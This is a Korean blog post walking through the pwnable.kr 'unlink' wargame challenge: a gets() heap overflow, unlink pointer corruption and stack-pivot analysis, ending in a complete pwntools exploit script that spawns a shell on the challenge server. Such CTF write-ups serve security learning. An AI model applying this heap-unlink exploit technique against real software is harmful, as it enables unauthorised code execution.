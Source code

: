 ```yaml
---
title: ! "[pwnable.kr] unlink"
classes: wide

date: 2018-09-19
comments : true
tags:
  - pwnable
  - unlink
  - heap
  - chaem
categories:
  - pwn
---
```

<br>
`pwnable.kr` `Toddler's Bottle`의 마지막 문제인 `unlink`문제를 보겠습니다!

문제를 먼저 풀어보고 싶은 사람은 아래 링크로 고고! 

[pwnable.kr](http://pwnable.kr/play.php)  

![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_01.PNG)  
<br>
우선 문제의 제목대로 unlink문제는 unlink corruption에 관한 문제입니당 후후  
문제 바이너리를 쭉 살펴봤을 때 보이는 특징은 다음과 같습니다.  

```  

1. system함수를 주고있어요!!!  
shell을 따는 문제라는 것을 알 수 있으며, 나중에 요 함수를 호출할 날이 올 것을 고대하고 있으면 되겠네용  

2. 그 취약하기로 유명한 gets함수로 입력을 받고 있어요!!! overflow 냄새가 납니당 ㅎㅎ  

3. stack /heap 주소를 친절하게 leak해서 알려주고 있어요!!!  
주소를 다 알려주었으니 main함수의 ret을 shell주소로 덮을 일만 남았네용  

```

<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_02.PNG)  
<br>
일단, heap의 구조를 봅시다. fd와 bk의 위치에 주소값을 보면 `A<->B<->C` 이렇게 서로를 가리키 있는 것을 볼 수 있습니다.  
<br>
![]({{ site.baseurl }}/assets/images/chaem/pwnable.kr/unlink_03.PNG)  
참고 이미지 출처 : [Heap 영역에서 발생하는 취약점을 알아보자!](https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/)  

그렇지만 unlink함수를 실행한 후에는 A<->C만 가리키도록 바뀌게됩니다.  
unlink함수는 어떻게 생겼는지 함 봐봅시다!!
<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_04.PNG)  
<br>
즉, B의 fd와 bk를 조작하여 B를 빼고 A와 C가 서로를 가리키 한다는 것을 알 수 있었죵!  
<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_05.PNG)  
<br>
그리고 위에서 한번 언급했듯이 gets를 사용함으로써 overflow가 발생합니다.  
a 16개까지는 괜찮았으나 17개부터 segmentation fault!
이 overflow를 이용해서 B의 fd와 bk까지 우리가 직접 조작할 수 있게되는 것입니다.  
<br>
문제에서 친절하게 stack과 heap의 주소를 leak해주기 때문에 이 주소를 그대로 받아오고, main함수의 return 값을 shell(system함수가 들어있는 함수)함수의 주소로 덮어주면 됩니다.  
하지만!!!! shell함수가 code영역을 사용하여 `쓰기권한`이 없기때문에 다른 방법을 더 모색해봐야합니다.  
<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_06.PNG)  
<br>
gdb로 main함수의 마지막 부분을 보면 우리가 일반적으로 알고있는 구조와는 다른 것을 볼 수 있습니다. ebp-4의 값을 ecx레지스터에 넣고 다시 ecx-0x4를 참조해 esp를 조정하기 때문에, 이 esp에서 eip를 설정할 수 있게 됩니다.  
<br>
unlink함수를 보면 ebp를 조작가능한 것을 볼 수 있습니다. 즉 unlink에서부 부터 ebp를 조작하여 최종적으로 esp를 컨트롤할 수 있게 되는것입니다.  
따라서, `ebp-4의 stack값을 덮어 쓰면, 주소가 가리키는 것보다 4bytes 앞부터 실행될 것입니다. 우리는 heap을 제어할 수 있으므로 그 시점에 shell의 주소를 쓰면 되는 것이죠!`  
<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_07.PNG)  
<br>
ebp-0x4의 주소와 문제에서 leak해주는 heap주소의 차이는 0x10입니다. 즉, ebp-0x4의 주소와 A의 시작주소가 0x10차이 나는 것입니다. (B->fd)  
또한, A->buf에서 16bytes를 계산하여야 B이지만, 이미 4bytes를 포함하여 계산한 것이므로 12byte로 계산해주면 됩니다. (B->bk)  
<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_08.PNG)  
<br>

```  

#! usr/bin/env python
from pwn import *

ssh = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
s = ssh.process("/home/unlink/unlink")

s.recvuntil('here is stack address leak: ')
stack_addr = int(s.recv(10),16)
s.recvuntil('here is heap address leak: ')
heap_addr = int(s.recv(10),16)

log.success('Stack leak : ' + hex(stack_addr))
log.success('Heap leak : ' + hex(heap_addr))

payload = p32(0x080484eb) #call shell
payload +="A"*12
payload += p32(heap_addr+12) #B->bk
payload += p32(stack_addr+0x10) #B->fd

s.sendlineafter('get shell!\n', payload)
s.interactive()

```
